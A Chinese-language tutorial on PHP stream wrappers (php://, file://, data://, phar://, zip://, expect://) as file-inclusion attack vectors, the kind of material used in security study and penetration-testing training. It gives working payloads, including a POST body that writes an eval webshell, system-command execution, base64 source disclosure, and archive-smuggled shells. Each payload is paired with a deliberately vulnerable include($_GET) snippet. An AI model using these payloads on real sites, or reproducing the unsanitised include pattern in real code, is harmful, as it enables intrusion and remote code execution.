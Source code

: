 # PHP 伪协议

*PHP带有很多内置URL风格的封装协议，可用于fopen、copy、file_exsits 和 filesize等文件系统函数。除了这些内置封装协议，还能通过stream_wrapper_register注册自定义的封装协议。这些协议都被称为伪协议*

常见伪协议：
* file://	访问本地文件系统
* http://	访问http(s)网站
* ftp://	访问ftp(s)网站
* php://	访问各个输入输出流
* zlib://	处理压缩流
* data://	读取数据流
* glob://	查找匹配的文件路径模式
* phar://	PHP文档
* ssh2://	Secure Shell2
* rar://	RAR数据压缩
* ogg://	处理音频流
* expect://		处理交互的流

## php:// 伪协议
php伪协议是PHP提供的一些输入输出流访问功能，允许访问PHP的输入输出流，标准输入输出和错误描述符，内存中、磁盘备份的临时文件流，以及可以操作其他读取和写入文件资源的过滤器。

### php://filter
php://filter是元封装器，设计用于数据流打开时的筛选过滤应用，对本地磁盘文件进行读写
以下两种用法相同：
``?filename=php://filter/read=convert.base64-encoder/resource=xxx.php``
``?filename=php://filter/convert.base64-encoder/resource=xxx.php``

利用php://filter读取本地文件时不需要开启`allow_url_fopen`和`allow_url_include`

### php://input
php://input可以访问请求未经过解析的原始数据，但是使用 ``enctype = "multipart/form-data"``的时候 php://input是无效的。

php://input 有一下3种用法：

1. 读取POST数据

示例代码如下：
```
<?php 
	echo file_get_contents("php://input")
?>
```

2. 写入木马

需要开启`allow_url_include`不需要开启`allow_url_fopen`
如果POST传入的数据是PHP代码，就可以写入木马，示例代码：
```
<?php
	$filename=$_GET['filename'];
	include($filename);
?>
```

通过POST传入恶意代码：
``<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST['cmd'])?>');?>``

php://input执行代码并在当前目录生成shell.php

3. 执行命令
需要开启`allow_url_include`不需要开启`allow_url_fopen`。如果POST传入的数据是PHP代码，就可以执行任意代码，如果此时PHP代码调用了系统函数就可以执行系统命令。
```
<?php
	$filename=$_GET['filename'];
	include($filename);
?>
```

通过POST传入恶意代码：  
`<?php system('whoami');?>`

## file:// 伪协议
file:// 伪协议可以访问本地文件系统，读取文件内容，读取本地文件时不需要开启`allow_url_fopen`和`allow_url_include`，示例代码：
```
<?php
	$filename=$_GET['filename'];
	include($filename);
?>
```

输入以下URL：
``?filename=file://c:/boot.ini``

## data:// 伪协议
从PHP 5.2.0 起，数据流封装器开始有效，主要用于数据流的读取。如果传入的是php代码，就会执行任意代码,需要开启`allow_url_fopen`和`allow_url_include`。
示例代码：
```
<?php
	$filename=$_GET['filename'];
	include($filename);
?>
```

利用方法：
``data://text/plain;base64,XXXXXXXXXXXX(base64编码数据)``

``?filename=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b``

## phar:// 伪协议
phar:// 是用来解压的伪协议，不管参数中的文件扩展名是什么都会被当中压缩包。
利用时PHP版本应高于5.3.0，需要开启`allow_url_fopen`和`allow_url_include`
示例代码：
```
<?php
	$filename=$_GET['filename'];
	include($filename);
?>
```

利用方法：
```
?file=phar://压缩包/内部文件
?file=phar://xxx.png/shell.php
```

利用步骤：
通常用在有上传功能的网站中，写一个shell.php，然后使用zip://伪协议压缩伪shell.zip，再修改扩展名为.php，上传网站。

**注意：** 压缩包需要使用zip://伪协议，而不能使用rar:// 伪协议压缩。将木马文件压缩后，改为任意格式文件都可以正常使用。

## zip:// 伪协议
zip:// 伪协议在原理上类似 phar:// 伪协议，但用法不一样。利用时PHP版本应高于5.3.0，需要开启`allow_url_fopen`和`allow_url_include`
示例代码：
```
<?php
	$filename=$_GET['filename'];
	include($filename);
?>
```

利用方法：
```
?file=zip://[压缩包文件绝对路径]＃[内部文件内的子文件名]
?file=zip://xxx.png＃shell.php
```

## expect:// 伪协议
expect:// 伪协议主要用来执行系统命令，但是需要安装扩展。
用法如下：
``?file=expect://ls``